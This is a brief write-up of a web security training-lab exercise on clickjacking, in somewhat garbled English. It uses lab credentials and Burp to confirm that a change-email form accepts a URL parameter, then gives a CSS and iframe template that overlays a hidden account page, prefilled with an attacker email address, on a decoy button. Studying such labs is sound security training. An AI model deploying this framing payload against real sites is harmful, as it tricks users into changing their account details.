 # Some cases of Clickjacking

## 1. Clickjacking with form input data prefilled from a URL parameter

Log on to the account with `username = wiener` , `password = peter`

Change the email into:  `ian@hacker.com`

Using Burp, the Proxy tab proceeds to search for the `my-account/change-email` section. Then `Send to repeater`.

In the repeater, when sending with the `POST` method, the response side returns
a result of `302 Found`. Therefore, we proceed to change the `POST` method to `GET` and send back => Return that found ian@hacker.com

Go back to the website and click on `Go to exploit server` to proceed with the change 
structure the body and occupy the server with the following information:

`

<style>

    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
    
</style>

<div>Test me</div>

<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>

`




    

